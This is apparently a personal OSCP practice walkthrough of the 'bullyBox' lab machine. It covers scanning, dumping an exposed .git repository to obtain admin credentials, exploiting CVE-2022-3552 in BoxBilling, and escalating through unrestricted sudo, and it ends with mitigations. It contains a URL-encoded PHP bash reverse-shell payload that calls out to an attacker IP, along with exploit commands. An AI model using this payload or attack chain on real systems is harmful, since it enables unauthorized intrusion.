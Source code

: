 ```yaml
---
title: bullyBox
date: 2025-05-04
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2022-3552, git, git-dumper] 
image: bullybox.jpg
media_subpath: /assets/img/posts/2025-05-04-bullybox/
---
```


## Introduction

In this walkthrough, I exploited a PG Practice machine running BoxBilling CMS. Upon scanning the target, I identified ports **22** (SSH) and **80** (HTTP) as open. After resolving the domain `bullybox.local` by adding it to my `/etc/hosts` file, I navigated to the web interface and discovered that the site was running **BoxBilling CMS version 4.22.1.5**, which I confirmed by inspecting the page source.

To gain administrative access, I conducted a `gobuster` directory scan and discovered an exposed **.git** directory. Using `git-dumper`, I cloned the repository locally and analyzed its contents. Within the dumped files, I found credentials for an admin account. Using these credentials, I logged into the admin panel and exploited a known vulnerability — **CVE-2022-3552** — to gain a foothold on the system.

After obtaining initial shell access, I enumerated further and discovered that the current user had unrestricted **sudo** privileges. By running `sudo su`, I escalated my privileges and obtained a root shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 80

- Version - Apache httpd 2.4.52
    
    ```bash
    searchsploit Apache 2.4.52
    ```
    
    The following exploits are added to the Loot for worst case:
    
    - [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
    - [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

- We navigating to the site it fails to find `bullybox.local` add that to `/etc/hosts` file.
- **robots.txt and sitemap.xml**
    
    ![image.png](image%202.png)
    
    When navigating to uploads I noticed admin user email:
    
    `admin@bullybox.local`
    

We see that Boxbilling version of `4.22.1.5`:

![image.png](image%203.png)

Searching for public exploits we can find one:
[BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51108&ved=2ahUKEwjcz67twImNAxXl_rsIHeukHjEQFnoECBkQAQ&usg=AOvVaw2pVMqgdik2CPa2VhCDdofl)

I registered as `kh4n@gmail.com : password123` and tried running the exploit. But it mentions that we need to be admin. I noticed from Gobuster scan that our server acting as non-bare git repo that and contains `.git` directory. We can use `git-dumper` and dump that repo locally.

[git-dumper](https://notes.benheater.com/books/web/page/git-dumper)

![image.png](image%204.png)

In Python virtual environment install `git-dumper`:

```bash
mkdir venv
cd venv
python3 -m venv .venv
source .venv/bin/activate
pipx install git-dumper
```

Then run:

```bash
git-dumper http://bullybox.local/ git_loot
```

Reading `bb-config.php` file we can see admin user and their password:

![image.png](image%205.png)

## Loot

- [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
- [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

## Credentials

```bash
admin@bullybox.local : Playing-Unstylish7-Provided
```

I used this [POC](https://github.com/0xk4b1r/CVE-2022-3552/tree/main) but couldn’t get a reverse shell.

```bash
python3 CVE-2022-3552.py  -d http://192.168.164.27 -u admin@bullybox.local -p Playing-Unstylish7-Provided
```

I saw that person in ExploitDB page URL encoded phpinfo, that’s why I URL-encoded reverse shell in POC.

```php
<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.155/80+0>%261'")%3b%3f>
```

![image.png](image%206.png)

But this didn’t work either. So I changed to original ExploitDB POC.

I intercepted request then changed its request method in Burp and make it similar to the one provided in POC.

 Right in Burp Suite I URL-encoded the shell using **CTRL+U**.

![image.png](image%207.png)

And then accessed it from browser:

![image.png](image%208.png)

Now I got a shell.

![image.png](image%209.png)

## Privilege Escalation

Right with `id` command we can see that we are in `sudo` group.

![image.png](image%2010.png)

Ridiculously we can execute any command without a password as root:

```bash
sudo -l
```

![image.png](image%2011.png)

```bash
sudo su
```

![image.png](image%2012.png)

Now we are root!

## Mitigation

- **Restrict access to sensitive directories** like `.git` on production web servers using `.htaccess` or web server configuration.
- **Update BoxBilling CMS** to the latest patched version to avoid known vulnerabilities such as CVE-2022-3552.
- **Use strong, unique credentials** and avoid hardcoding them in repositories.
- **Implement proper sudo policy**: Restrict `sudo` access and use role-based access controls to limit privilege escalation opportunities.
- **Perform regular security audits** and code reviews to catch exposed secrets and configuration flaws before deployment.

